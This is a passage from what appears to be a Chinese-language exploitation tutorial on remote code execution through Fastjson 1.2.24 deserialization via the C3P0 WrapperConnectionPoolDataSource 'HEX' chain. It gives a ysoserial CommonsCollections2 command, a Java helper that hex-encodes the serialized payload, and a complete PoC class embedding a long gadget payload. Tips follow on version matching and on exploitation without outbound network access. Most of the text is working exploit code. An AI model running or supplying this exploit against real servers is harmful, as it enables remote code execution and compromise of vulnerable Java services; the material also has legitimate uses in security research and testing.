        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.24</version>
    </dependency>
    <!-- C3P0 连接池 -->
    <dependency>
        <groupId>com.mchange</groupId>
        <artifactId>c3p0</artifactId>
        <version>0.9.5.2</version>
    </dependency>
    <!-- 用于构造恶意Gadget链的组件（例如CC链） -->
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-collections4</artifactId>
        <version>4.0</version>
    </dependency>
</dependencies>
```

#### 步骤 2：生成HEX载荷

HEX载荷的本质是**一条能够导致RCE的二次反序列化链**（例如Commons Collections链）的序列化字节码的十六进制表示。

1. **使用ysoserial生成序列化文件**：

   ```
   java -jar ysoserial.jar CommonsCollections2 "calc" > calc.ser
   ```
   
2. **将序列化文件转换为HEX字符串**：

   编写一个Java工具方法，读取上一步生成的 `.ser`文件，并将其字节数组转换为十六进制字符串。**特别注意**：最终的HEX字符串需要以 `HexAsciiSerializedMap:`开头，并以分号 `;`结尾。

   ```java
   import java.io.*;
   
   public class HexGenerator {
       public static void main(String[] args) throws IOException {
           // 读取序列化payload文件
           File file = new File("calc.ser文件的绝对路径");
           try (FileInputStream fis = new FileInputStream(file);
                ByteArrayOutputStream bos = new ByteArrayOutputStream()) {
               byte[] buffer = new byte[1024];
               int len;
               while ((len = fis.read(buffer)) != -1) {
                   bos.write(buffer, 0, len);
               }
               byte[] data = bos.toByteArray();
   
               // 转换为十六进制字符串，并添加必需的前缀和后缀
               String hexString = bytesToHex(data);
               String finalHexPayload = "HexAsciiSerializedMap:" + hexString + ";";
               System.out.println("生成的HEX载荷: " + finalHexPayload);
           }
       }
   
   
       // 自定义字节转十六进制方法
       private static String bytesToHex(byte[] bytes) {
           StringBuilder sb = new StringBuilder();
           for (byte b : bytes) {
               sb.append(String.format("%02X", b));
           }
           return sb.toString();
       }
   }
   ```

#### 步骤 3：构造并触发PoC

将生成的HEX字符串填入您提供的JSON结构中进行触发。

```
import com.alibaba.fastjson.JSON;

public class C3P0POC {
    public static void main(String[] args) {
        // 将步骤2中生成的HEX字符串替换到这里
        String hexPayload = "HexAsciiSerializedMap:ACED0005737200176A6176612E7574696C2E5072696F72697479517565756594DA30B4FB3F82B103000249000473697A654C000A636F6D70617261746F727400164C6A6176612F7574696C2F436F6D70617261746F723B787000000002737200426F72672E6170616368652E636F6D6D6F6E732E636F6C6C656374696F6E73342E636F6D70617261746F72732E5472616E73666F726D696E67436F6D70617261746F722FF984F02BB108CC0200024C00096465636F726174656471007E00014C000B7472616E73666F726D657274002D4C6F72672F6170616368652F636F6D6D6F6E732F636F6C6C656374696F6E73342F5472616E73666F726D65723B7870737200406F72672E6170616368652E636F6D6D6F6E732E636F6C6C656374696F6E73342E636F6D70617261746F72732E436F6D70617261626C65436F6D70617261746F72FBF49925B86EB13702000078707372003B6F72672E6170616368652E636F6D6D6F6E732E636F6C6C656374696F6E73342E66756E63746F72732E496E766F6B65725472616E73666F726D657287E8FF6B7B7CCE380200035B000569417267737400135B4C6A6176612F6C616E672F4F626A6563743B4C000B694D6574686F644E616D657400124C6A6176612F6C616E672F537472696E673B5B000B69506172616D54797065737400125B4C6A6176612F6C616E672F436C6173733B7870757200135B4C6A6176612E6C616E672E4F626A6563743B90CE589F1073296C02000078700000000074000E6E65775472616E73666F726D6572757200125B4C6A6176612E6C616E672E436C6173733BAB16D7AECBCD5A990200007870000000007704000000037372003A636F6D2E73756E2E6F72672E6170616368652E78616C616E2E696E7465726E616C2E78736C74632E747261782E54656D706C61746573496D706C09574FC16EACAB3303000649000D5F696E64656E744E756D62657249000E5F7472616E736C6574496E6465785B000A5F62797465636F6465737400035B5B425B00065F636C61737371007E000B4C00055F6E616D6571007E000A4C00115F6F757470757450726F706572746965737400164C6A6176612F7574696C2F50726F706572746965733B787000000000FFFFFFFF757200035B5B424BFD19156767DB37020000787000000002757200025B42ACF317F8060854E0020000787000000698CAFEBABE0000003200390A0003002207003707002507002601001073657269616C56657273696F6E5549440100014A01000D436F6E7374616E7456616C756505AD2093F391DDEF3E0100063C696E69743E010003282956010004436F646501000F4C696E654E756D6265725461626C650100124C6F63616C5661726961626C655461626C6501000474686973010013537475625472616E736C65745061796C6F616401000C496E6E6572436C61737365730100354C79736F73657269616C2F7061796C6F6164732F7574696C2F4761646765747324537475625472616E736C65745061796C6F61643B0100097472616E73666F726D010072284C636F6D2F73756E2F6F72672F6170616368652F78616C616E2F696E7465726E616C2F78736C74632F444F4D3B5B4C636F6D2F73756E2F6F72672F6170616368652F786D6C2F696E7465726E616C2F73657269616C697A65722F53657269616C697A6174696F6E48616E646C65723B2956010008646F63756D656E7401002D4C636F6D2F73756E2F6F72672F6170616368652F78616C616E2F696E7465726E616C2F78736C74632F444F4D3B01000868616E646C6572730100425B4C636F6D2F73756E2F6F72672F6170616368652F786D6C2F696E7465726E616C2F73657269616C697A65722F53657269616C697A6174696F6E48616E646C65723B01000A457863657074696F6E730700270100A6284C636F6D2F73756E2F6F72672F6170616368652F78616C616E2F696E7465726E616C2F78736C74632F444F4D3B4C636F6D2F73756E2F6F72672F6170616368652F786D6C2F696E7465726E616C2F64746D2F44544D417869734974657261746F723B4C636F6D2F73756E2F6F72672F6170616368652F786D6C2F696E7465726E616C2F73657269616C697A65722F53657269616C697A6174696F6E48616E646C65723B29560100086974657261746F720100354C636F6D2F73756E2F6F72672F6170616368652F786D6C2F696E7465726E616C2F64746D2F44544D417869734974657261746F723B01000768616E646C65720100414C636F6D2F73756E2F6F72672F6170616368652F786D6C2F696E7465726E616C2F73657269616C697A65722F53657269616C697A6174696F6E48616E646C65723B01000A536F7572636546696C6501000C476164676574732E6A6176610C000A000B07002801003379736F73657269616C2F7061796C6F6164732F7574696C2F4761646765747324537475625472616E736C65745061796C6F6164010040636F6D2F73756E2F6F72672F6170616368652F78616C616E2F696E7465726E616C2F78736C74632F72756E74696D652F41627374726163745472616E736C65740100146A6176612F696F2F53657269616C697A61626C65010039636F6D2F73756E2F6F72672F6170616368652F78616C616E2F696E7465726E616C2F78736C74632F5472616E736C6574457863657074696F6E01001F79736F73657269616C2F7061796C6F6164732F7574696C2F476164676574730100083C636C696E69743E0100116A6176612F6C616E672F52756E74696D6507002A01000A67657452756E74696D6501001528294C6A6176612F6C616E672F52756E74696D653B0C002C002D0A002B002E01000463616C6308003001000465786563010027284C6A6176612F6C616E672F537472696E673B294C6A6176612F6C616E672F50726F636573733B0C003200330A002B003401000D537461636B4D61705461626C6501001D79736F73657269616C2F50776E6572343633383535303833303837303001001F4C79736F73657269616C2F50776E657234363338353530383330383730303B002100020003000100040001001A000500060001000700000002000800040001000A000B0001000C0000002F00010001000000052AB70001B100000002000D0000000600010000002F000E0000000C000100000005000F003800000001001300140002000C0000003F0000000300000001B100000002000D00000006000100000034000E00000020000300000001000F0038000000000001001500160001000000010017001800020019000000040001001A00010013001B0002000C000000490000000400000001B100000002000D00000006000100000038000E0000002A000400000001000F003800000000000100150016000100000001001C001D000200000001001E001F00030019000000040001001A00080029000B0001000C00000024000300020000000FA70003014CB8002F1231B6003557B1000000010036000000030001030002002000000002002100110000000A000100020023001000097571007E0018000001D4CAFEBABE00000032001B0A0003001507001707001807001901001073657269616C56657273696F6E5549440100014A01000D436F6E7374616E7456616C75650571E669EE3C6D47180100063C696E69743E010003282956010004436F646501000F4C696E654E756D6265725461626C650100124C6F63616C5661726961626C655461626C6501000474686973010003466F6F01000C496E6E6572436C61737365730100254C79736F73657269616C2F7061796C6F6164732F7574696C2F4761646765747324466F6F3B01000A536F7572636546696C6501000C476164676574732E6A6176610C000A000B07001A01002379736F73657269616C2F7061796C6F6164732F7574696C2F4761646765747324466F6F0100106A6176612F6C616E672F4F626A6563740100146A6176612F696F2F53657269616C697A61626C6501001F79736F73657269616C2F7061796C6F6164732F7574696C2F47616467657473002100020003000100040001001A000500060001000700000002000800010001000A000B0001000C0000002F00010001000000052AB70001B100000002000D0000000600010000003C000E0000000C000100000005000F001200000002001300000002001400110000000A000100020016001000097074000450776E727077010078737200116A6176612E6C616E672E496E746567657212E2A0A4F781873802000149000576616C7565787200106A6176612E6C616E672E4E756D62657286AC951D0B94E08B02000078700000000178;";

        // 构造完整的PoC
        String poc = "{" +
                "\"e\":{" +
                "\"@type\":\"java.lang.Class\"," +
                "\"val\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"" +
                "}," +
                "\"f\":{" +
                "\"@type\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"," +
                "\"userOverridesAsString\":\"" + hexPayload + "\"" +
                "}" +
                "}";

        System.out.println("发送的PoC: " + poc);

        // 触发漏洞
        try {
            JSON.parseObject(poc);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### ⚠️ 关键要点与常见问题

- **成功关键**：HEX载荷必须由**有效的、在目标类路径上的反序列化利用链**（如CC链）生成。如果目标环境中没有相应的Gadget链库，利用将失败。
- **版本匹配**：Fastjson 1.2.25及以上版本将 `com.mchange`包加入了黑名单，因此必须使用 **Fastjson <= 1.2.24**。
- **载荷格式**：`userOverridesAsString`的值必须严格以 `HexAsciiSerializedMap:`开头，以 `;`结尾。内部的HEX字符串需要是完整的、正确的序列化字节码转换而来。
- **不出网利用**：这是此链的核心价值。整个利用过程不需要目标服务器访问外部网络。

### 💡 与TemplatesImpl链的对比

| 特性           | C3P0 HEX链                                     | TemplatesImpl链                         |
| -------------- | ---------------------------------------------- | --------------------------------------- |
| **出网要求**   | **不出网**                                     | 不出网                                  |
| **依赖复杂度** | 依赖**二次反序列化链**（如CC），环境搭建稍复杂 | 仅需JDK中的TemplatesImpl类，依赖简单    |
| **载荷构造**   | 需借助ysoserial等工具生成Gadget                | 直接编译恶意类并编码为BCEL或Base64      |
| **适用场景**   | 目标环境包含CC等组件时                         | 目标环境JDK版本合适，且Fastjson配置允许 |


